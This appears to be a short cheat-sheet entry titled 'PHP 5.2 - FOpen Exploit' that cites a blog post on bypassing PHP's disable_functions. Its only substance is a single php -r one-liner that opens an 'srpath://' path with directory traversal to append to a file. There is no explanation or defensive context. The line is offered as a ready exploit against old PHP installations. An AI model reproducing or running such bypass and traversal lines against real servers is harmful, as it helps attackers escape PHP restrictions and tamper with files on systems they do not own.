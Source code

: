 # PHP 5.2 - FOpen Exploit



From [[http://blog.safebuff.com/2016/05/06/disable-functions-bypass/|http://blog.safebuff.com/2016/05/06/disable-functions-bypass/]]

```php
php -r 'fopen("srpath://../../../../../../../dir/pliczek", "a");'
```
```




